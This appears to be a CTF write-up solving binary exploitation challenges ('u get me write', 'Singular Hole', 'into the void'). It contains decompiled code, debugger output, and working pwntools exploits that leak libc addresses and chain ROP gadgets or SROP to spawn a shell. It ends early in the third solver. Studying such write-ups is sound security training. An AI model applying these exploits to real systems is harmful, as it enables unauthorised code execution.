









# Binary Exploitation

<table><thead><tr><th width="347">Challenge</th><th>Topic</th></tr></thead><tbody><tr><td><a href="#u-get-me-write-400-pts">u get me write (400 pts)</a></td><td>stack overflow, string format vulnerability</td></tr><tr><td><a href="#singular-hole-441-pts">Singular Hole (441 pts)</a></td><td>string format vulnerability, one byte overwrite</td></tr><tr><td><a href="#into-the-void-458-pts">into the void (458 pts)</a></td><td>srop</td></tr><tr><td><a href="#holes-483-pts">holes (483 pts)</a></td><td>ret2shellcode</td></tr></tbody></table>

## u get me write (400 pts)

### Description

Surely one gets call wont get me fired right?

### Solution

Given executable with following protection

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Now decompile using IDA

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE v4[24]; // [rsp+0h] [rbp-20h] BYREF
  const char *v5; // [rsp+18h] [rbp-8h]

  v5 = "Pleasure to meet you! Please enter your name: ";
  printf("Hello! %s\n", "Pleasure to meet you! Please enter your name: ");
  return gets(v4);
}
```

The code is pretty simple and the vulnerability is easy to find which is gets. In this challenge we're not given libc so we need to find correct libc later.&#x20;

First, we can do overflow in gets function and get control of RIP, but the problem is where should we go? Because there is no PIE, so we can go to any address in ELF because we know the static address of executable. But because the target is to read flag on system we need to gain RCE or read file on remote server.&#x20;

My idea to gain RCE is by utilizing function in libc, which can be system/execve/one gadget/etc. So we need to leak libc address first. Let's take a look on assembly of function main.

```nasm
.text:0000000000401156                 endbr64
.text:000000000040115A                 push    rbp
.text:000000000040115B                 mov     rbp, rsp
.text:000000000040115E                 sub     rsp, 20h
.text:0000000000401162                 lea     rax, aPleasureToMeet ; "Pleasure to meet you! Please enter your"...
.text:0000000000401169                 mov     [rbp+var_8], rax
.text:000000000040116D                 mov     rax, [rbp+var_8]
.text:0000000000401171                 mov     rsi, rax
.text:0000000000401174                 lea     rax, format     ; "Hello! %s\n"
.text:000000000040117B                 mov     rdi, rax        ; format
.text:000000000040117E                 mov     eax, 0
.text:0000000000401183                 call    _printf
.text:0000000000401188                 lea     rax, [rbp+var_20]
.text:000000000040118C                 mov     rdi, rax
.text:000000000040118F                 mov     eax, 0
.text:0000000000401194                 call    _gets
.text:0000000000401199                 nop
.text:000000000040119A                 leave
.text:000000000040119B                 retn
```

There is printf call and gets, function gets will return the address of buffer in RAX. So if we set the RIP to 0x00000000040117B after retn function, the RAX still carry the address of buffer from gets. If we input `%p` in buffer so we can get string format vulnerability in printf because we can control the RDI of printf which moved from RAX.

```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(elf)
libc = '/usr/lib/x86_64-linux-gnu/libc.so.6'

libc = ELF(libc, checksec=False)

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'u-get-me-write.k17.kctf.cloud', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript,  stdin=PTY)
    elif args.RM:
        return remote(host, port)
    else:
        return process([exe] + argv,  stdin=PTY)

gdbscript = '''
b *0x401199
c
'''.format(**locals())

def exploit():
    global r
    r = initialize()
    payload = b"%p" # string format payload
    payload += b"A" * (0x28 - len(payload)) # overflow
    payload += p64(0x040117b) # RIP address
    
    r.recvuntil(b"name:")
    r.sendline(payload)
    
    r.interactive()
    
if __name__ == '__main__':
    exploit()
```

<figure><figcaption></figcaption></figure>

Now we've confirmed that we can leak using printf, next we need to find useful value to leak. In x64 there are order of argument that we can use as reference

* RSI
* RDX
* RCX
* R8
* R9
* Values on stack

By examining above register and value on stack we found interesting value in RCX and $rsp+(19\*0x8)

```python
gef➤  x/gx $rsp+(19*0x8)
0x7ffe19a42318: 0x000072758e22a28b
gef➤  x/gx 0x000072758e22a28b
0x72758e22a28b <__libc_start_main_impl+139>:    0x4d001d8cf63d8b4c
gef➤  info registers rcx
rcx            0x72758e4038e0      0x72758e4038e0
gef➤  x/gx 0x72758e4038e0
0x72758e4038e0 <_IO_2_1_stdin_>:        0x00000000fbad2288
```

After leak we will call gets function again, but if our current payload rbp is set to 0x41414141.

<figure><figcaption></figcaption></figure>

To make gets working again we need to set a valid rbp value with writable region and we can easily find it through vmmap.

```
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kosong/ctf/secso/pwn/uget/chal

gef➤  x/50gx 0x0000000000404400-0x20
0x4043e0:       0x0000000000000000      0x0000000000000000
0x4043f0:       0x0000000000000000      0x0000000000000000
0x404400:       0x0000000000000000      0x0000000000000000
0x404410:       0x0000000000000000      0x0000000000000000
0x404420:       0x0000000000000000      0x0000000000000000
0x404430:       0x0000000000000000      0x0000000000000000
0x404440:       0x0000000000000000      0x0000000000000000
0x404450:       0x0000000000000000      0x0000000000000000
0x404460:       0x0000000000000000      0x0000000000000000
0x404470:       0x0000000000000000      0x0000000000000000
0x404480:       0x0000000000000000      0x0000000000000000
0x404490:       0x0000000000000000      0x0000000000000000
0x4044a0:       0x0000000000000000      0x0000000000000000
0x4044b0:       0x0000000000000000      0x0000000000000000
0x4044c0:       0x0000000000000000      0x0000000000000000
0x4044d0:       0x0000000000000000      0x0000000000000000
0x4044e0:       0x0000000000000000      0x0000000000000000
0x4044f0:       0x0000000000000000      0x0000000000000000
0x404500:       0x0000000000000000      0x0000000000000000
0x404510:       0x0000000000000000      0x0000000000000000
0x404520:       0x0000000000000000      0x0000000000000000
0x404530:       0x0000000000000000      0x0000000000000000
0x404540:       0x0000000000000000      0x0000000000000000
0x404550:       0x0000000000000000      0x0000000000000000
0x404560:       0x0000000000000000      0x0000000000000000
```

Above address is good candidate for RBP, let's update our solver.

```python
    writeable_mem = 0x0000000000404400
    payload = b"%3$p %25$p" # string format payload
    payload += b"A" * (0x20 - len(payload)) # overflow
    payload += p64(writeable_mem) # RBP
    payload += p64(0x040117b) # RIP address
```

Last, we can use one gadget to gain RCE

<figure><figcaption></figcaption></figure>

There are some constrains in each one gadget, most of it is required rbp-n writeable. So before jump to one gadget we need to set a valid rbp and we can utilize gadget from ELF which pop rbp; ret; . Following is final solver we used

```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(elf)
libc = '/usr/lib/x86_64-linux-gnu/libc.so.6'

libc = ELF(libc, checksec=False)

context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'u-get-me-write.k17.kctf.cloud', 1337

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript,  stdin=PTY)
    elif args.RM:
        return remote(host, port)
    else:
        return process([exe] + argv,  stdin=PTY)

gdbscript = '''
b *0x401199
c
'''.format(**locals())

def exploit():
    global r
    r = initialize()
    writeable_mem = 0x0000000000404400

    payload = b"%3$p %25$p" # string format payload
    payload += b"A" * (0x20 - len(payload)) # overflow
    payload += p64(writeable_mem) # RBP
    payload += p64(0x040117b) # RIP address
    
    r.recvuntil(b"name:")
    r.sendline(payload)

    leak1, leak2 = r.recvuntil(b"AAAAAAAAAAAAAAAAAAAA").decode().strip().split("AAAAAAAAAAAAA")[0].split(" ")
    leak1 = int(leak1, 16)
    leak2 = int(leak2, 16) - 139 # - 128 on remote
    libc_base = leak1 - libc.symbols['_IO_2_1_stdin_']
    libc_base_2 = leak2 - libc.symbols['__libc_start_main']
    
    assert libc_base == libc_base_2

    libc.address = libc_base

    print(f"{hex(libc.address)=}")

    POP_RBP = rop.find_gadget(['pop rbp', 'ret'])[0]
    
    ONE_GADGET = 0xef52b

    payload = b"A" * 0x28
    payload += p64(POP_RBP)
    payload += p64(writeable_mem)
    payload += p64(libc.address + ONE_GADGET)
    
    r.sendline(payload)
    
    r.interactive()
    
if __name__ == '__main__':
    exploit()
```

<figure><figcaption></figcaption></figure>

## Singular Hole (441 pts)

### Description

surely one singular hole is easier to handle than many holes

### Solution

Given executable with following protection

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Decompile it with IDA

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4[96]; // [rsp+0h] [rbp-70h] BYREF
  char s[16]; // [rsp+60h] [rbp-10h] BYREF

  puts("Welcome to the singular hole - (not the void though, thats somewhere else)!\"");
  puts(byte_4020FD);
  puts("In honour of yellowsubmarine's brain, which is");
  puts("completely full of holes, we're giving you the");
  puts("opportunity to exploit the one true singular hole.");
  puts(byte_4020FD);
  puts("Please state your name:");
  printf(">> ");
  fgets(s, 16, _bss_start);
  printf("Well hello ");
  printf(s);
  puts(byte_4020FD);
  puts("Please state a fun fact about yourself:");
  printf(">> ");
  fgets(v4, 96, _bss_start);
  puts("Interesting, I didn't know that!");
  hole();
  return 0;
}
```

```c
int hole()
{
  char v1; // [rsp+Fh] [rbp-11h] BYREF
  _BYTE *v2; // [rsp+10h] [rbp-10h] BYREF
  int v3; // [rsp+1Ch] [rbp-4h]

  puts("Now let's get to business. Where would you like to place your hole?");
  printf(">> ");
  __isoc99_scanf(" %p", &v2);
  puts("What would you like to write there?");
  do
    v3 = getchar();
  while ( v3 != 10 && v3 != -1 );
  __isoc99_scanf("%hhu", &v1);
  *v2 = v1;
  return puts("The hole is now in place. Good luck!");
}
```

From above function we know 2 obvious vulnerabilities

* string format vuln in printf (main)
  * We can utilize this vulnerability to read or write value
* one byte overwrite in hole function
  * We can utilize this vulnerability to overwrite value (one byte)

Using printf we gonna try to leak useful values. Let's check register and stack

* 1st Leak = 0x00007fff6bf48188 (stack address)
  * rbp+0x8 is 0x7fff6bf48068, so we can leak $rbp+0x8 by substracting 1st leak with 288
  * 0x7fff6bf48068 stored RIP after main function (value = 0x76471f02a1ca)
    * By overwriting value in 0x7fff6bf48068 we can change flow after main function call
* 2nd Leak = 0x76471f02a1ca (\_\_libc\_start\_call\_main+122)
  * so we can leak libc base by subtracting it with 122 and address of \_\_libc\_start\_call\_main

In this challenge we've limitation of printf which only 16 bytes, so it will hard to one shot overwrite with this limitation. Using hole function is same, it only overwrite 1 byte.&#x20;

So my first idea is utilizing either printf or hole to make infinite looping, because we know the address $rbp+0x8 and we know the value is \_\_libc\_start\_call\_main+122  we can try to make the program looping again to calling main function again by changing the RIP to \_\_libc\_start\_call\_main+57. It only needs one byte overwrite, but if we use format p64(target) + format string payload it will exceeded 16 bytes.&#x20;

To overcome this issue, the idea is utilizing the second fgets to store the address of $rbp+0x8 then just use %137x%k$hhn for k is location of $rbp+0x8. Because we can do infinite looping then we can utilize one byte overwrite to write any data we want.

If we take a look again on the code, actually we can do overwrite 3 bytes at a time (one loop) with following flow

* two bytes overwrite in printf
* one byte overwrite in hole

By combining above idea we can craft following exploit

* use infinite looping to write following data
  * rbp+(0x8\*2) = binsh
  * rbp+(0x8\*3) = ret
  * rbp+(0x8\*4) = system
* use 3 bytes overwrite in last loop (because it has 3 bytes different)
  * rbp+0x8 = pop rdi; ret

```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chal'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(elf)
libc = '/usr/lib/x86_64-linux-gnu/libc.so.6'
libc = ELF(libc, checksec=False)
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h"]
host, port = 'challenge.secso.cc', 9003

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.RM:
        return remote(host, port)
    else:
        return process([exe] + argv, stdin=PTY)

gdbscript = '''
b *0x40131C
b *0x401247
c
'''.format(**locals())

def write_data(TARGET_ADDRESS, TARGET_DATA, leak1):
    # print(hex(u64(TARGET_DATA)))
    for i in range(len(TARGET_DATA)):
        r.recvuntil(b" yourself:")
        payload = p64(leak1)
        r.sendline(payload)
        r.recvuntil(b" to place your hole?")
        r.sendline(hex(TARGET_ADDRESS + i).encode())
        r.recvuntil(b"write there?")
        payload = str(TARGET_DATA[i]).encode()
        fmt_payload = f"%137x%6$hhn".encode()
        assert len(fmt_payload) <= 16
        payload += fmt_payload
        r.sendline(payload)

def last_write(rop2, leak1):
    pop_rdi = rop2.find_gadget(['pop rdi','ret']).address
    r.recvuntil(b" yourself:")
    payload = p64(leak1)
    r.sendline(payload)
    r.recvuntil(b" to place your hole?")
    r.sendline(hex(leak1).encode())
    r.recvuntil(b"write there?")
    payload = str(0x89).encode()
    fmt_payload = f"%{pop_rdi & 0xffff}x%6$hn".encode()
    assert len(fmt_payload) <= 16
    payload += fmt_payload
    r.sendline(payload)

    r.recvuntil(b" yourself:")
    r.sendline(b"lol")
    r.recvuntil(b" to place your hole?")
    r.sendline(hex(leak1 + 2).encode())
    r.recvuntil(b"write there?")
    payload = str((pop_rdi >> 16) & 0xff).encode()
    r.sendline(payload)


def exploit():
    global r

    r = initialize()
    r.recvuntil(b"name:\n")
    r.sendline(f"%26$p.%21$p".encode())
    r.recvuntil(b">> Well hello ")
    tmp = r.recvline().strip().decode().split(".")
    
    leak1 = int(tmp[0], 16)
    print(f"{hex(leak1)=}")
    leak1 -= 288 # RIP main
    print(f"{hex(leak1)=}")

    leak2 = int(tmp[1], 16)
    print(f"{hex(leak2)=}")
    leak2 -= 172490 # __libc_start_call_main+122
    print(f"{hex(leak2)=}")

    libc.address = leak2
    
    rop2 = ROP(libc)

    # setup infinite looping
    r.recvuntil(b" yourself:")
    payload = p64(leak1)
    r.sendline(payload)
    r.recvuntil(b" to place your hole?")
    r.sendline(hex(leak1).encode())
    r.recvuntil(b"write there?")
    payload = str(0x89).encode()
    fmt_payload = f"%137x%6$hhn".encode()
    assert len(fmt_payload) <= 16
    payload += fmt_payload
    r.sendline(payload)

    binsh   = p64(next(libc.search(b"/bin/sh\x00")))
    system  = p64(libc.sym['system'])
    RET = p64(rop2.find_gadget(['ret']).address)
    
    # setup RCE
    write_data(leak1 + 0x8, binsh, leak1)
    write_data(leak1 + 0x8*2, RET, leak1)
    write_data(leak1 + 0x8*3, system, leak1)
    
    # set RIP to pop rdi; ret
    last_write(rop2, leak1)
   
    r.interactive()
    
if __name__ == '__main__':
    exploit()
```

<figure><figcaption></figcaption></figure>

another solution is by using stack pivot.

## into the void (458 pts)

### Description

void

### Solution

This challenge was solved by @dmcr7 and i tried to reproduce it again after competition. Following is protection of the executable.

```yaml
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Let's decompile using IDA

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[8]; // [rsp+4h] [rbp-Ch] BYREF

  read(0, buf, 0x1000uLL);
  return 15;
}
```

The code is simple, so there is buffer overflow in buf. My friend noticed that this challenge should be able to be exploited using SROP (never heard about this before lol). Looking at following [reference](https://ir0nstone.gitbook.io/notes/binexp/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) basically we can get RCE by utilizing rt\_sigreturn syscall. Let's take a look on assembly of main function

```nasm
.text:000000000040113F                 endbr64
.text:0000000000401143                 push    rbp
.text:0000000000401144                 mov     rbp, rsp
.text:0000000000401147                 sub     rsp, 10h
.text:000000000040114B                 lea     rax, [rbp+buf]
.text:000000000040114F                 mov     edx, 1000h      ; nbytes
.text:0000000000401154                 mov     rsi, rax        ; buf
.text:0000000000401157                 mov     edi, 0          ; fd
.text:000000000040115C                 call    _read
.text:0000000000401161                 mov     [rbp+var_4], eax
.text:0000000000401164                 mov     eax, 0Fh
.text:0000000000401169                 leave
.text:000000000040116A                 retn
```

Before leave instruction we can see that there is mov eax, 0xf and throug the reference we know that rt\_sigreturn syscall is 0xf. So we can assume that this gadget should be used to trigger rt\_sigreturn syscall later.

To achieve RCE we need "/bin/sh" string and there is no string like that in executable and we don't find any leak from the executable. But in this challenge we've overflow and imported read function, so basically we can write to anywhere we want. Let's find suitable region for writing "/bin/sh".

```
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kosong/ctf/secso/pwn/void/chal
```

```python
gef➤  x/100gx 0x4040b0
0x4040b0:       0x0000000000000000      0x0000000000000000
0x4040c0:       0x0000000000000000      0x0000000000000000
0x4040d0:       0x0000000000000000      0x0000000000000000
0x4040e0:       0x0000000000000000      0x0000000000000000
0x4040f0:       0x0000000000000000      0x0000000000000000
0x404100:       0x0000000000000000      0x0000000000000000
0x404110:       0x0000000000000000      0x0000000000000000
0x404120:       0x0000000000000000      0x0000000000000000
0x404130:       0x0000000000000000      0x0000000000000000
0x404140:       0x0000000000000000      0x0000000000000000
0x404150:       0x0000000000000000      0x0000000000000000
0x404160:       0x0000000000000000      0x0000000000000000
0x404170:       0x0000000000000000      0x0000000000000000
0x404180:       0x0000000000000000      0x0000000000000000
0x404190:       0x0000000000000000      0x0000000000000000
```

Buffer for read function need to be placed in RSI and we also found that there is POP RSI gadget in executable. Besides that there is another useful gadget which is POP RBP and we'll use it as our payload also.&#x20;

Following is the whole idea of exploitation

* write /bin/sh to writeable section (0x4040b0)
  * use POP RSI gadget to set 0x4040b0 as buffer
* reuse 0x4040b0 as RBP
  * Because our last gadget is mov eax, 0xf and it followed by leave and retn we need a valid RBP to control the next execution
    * So before using last gadget, let's use POP RBP and fill RBP with 0x4040b0 then we can set RIP for last execution is on  0x4040b8
* write last execution address to writeable section (0x4040b8)
* write fake sigreturnframe to writeable section (0x4040b8 + 0x8)

Last limitation is there is no syscall in executable, but if we take a look on read function we can see that there is syscall instruction on it.

<figure><figcaption></figcaption></figure>

As we can see that address in GOT is only has different one byte with known syscall instruction, through the same overwrite flow we can overwrite GOT with our target which is 0x5f.

```python
#!usr/bin/python3
from pwn import *

